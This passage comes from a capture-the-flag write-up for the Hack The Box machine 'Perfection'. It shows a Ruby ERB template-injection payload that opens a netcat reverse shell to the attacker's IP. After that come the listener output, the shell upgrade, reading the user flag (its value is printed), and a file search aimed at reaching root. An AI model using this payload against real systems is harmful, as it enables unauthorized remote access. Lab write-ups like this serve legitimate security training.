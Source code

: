 Get a shell

```ruby
x
<%= system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.83 1111 >/tmp/f') %>
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Perfection]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.83] from (UNKNOWN) [10.129.122.132] 43964
/bin/sh: 0: can't access tty; job control turned off
$ /usr/bin/script -qc /bin/bash /dev/null
susan@perfection:~/ruby_app$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/htb/Perfection]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111
                               export TERM=xterm
susan@perfection:~/ruby_app$ stty rows 50 columns 209
susan@perfection:~/ruby_app$ id
uid=1001(susan) gid=1001(susan) groups=1001(susan),27(sudo)
susan@perfection:~$ cat user.txt
8737adf4f4c6909f882cc4b0ca955370
```

# Root Flag
---

## From susan to root


### Discover password pattern from mail

Susan have `sudo` group, which is very interesting, but I don't have `Susan`'s password

Find group owns

```bash
susan@perfection:~$ find / -type f -not -path "/proc/*" -not -path "/run/*" -not -path "/sys/*" -not -path "/var/lib/*" -group susan -ls 2>/dev/null
    39937      4 -rw-r-----   1 root     susan         625 May 14  2023 /var/mail/susan
     1020      4 -rw-r--r--   1 susan    susan          39 Oct 17 12:26 /home/susan/.vimrc
     1031      4 -rw-r--r--   1 susan    susan         220 Feb 27  2023 /home/susan/.bash_logout
     1065      4 -rw-r-----   1 root     susan          33 Mar  3 08:03 /home/susan/user.txt
     3879      4 -rw-------   1 susan    susan          20 Mar  3 09:31 /home/susan/.lesshst
[...]
     1391      4 -rw-r--r--   1 root     susan        2165 Apr  3  2023 /home/susan/ruby_app/public/images/lightning.png
     1388     12 -rw-r--r--   1 root     susan        8257 Apr  3  2023 /home/susan/ruby_app/public/images/checklist.jpg
     1227     12 -rw-r--r--   1 root     susan        8597 Apr  3  2023 /home/susan/ruby_app/public/images/susan.jpg
     1147      0 -rw-r--r--   1 susan    susan           0 Feb 28  2023 /home/susan/.cache/motd.legal-displayed
```
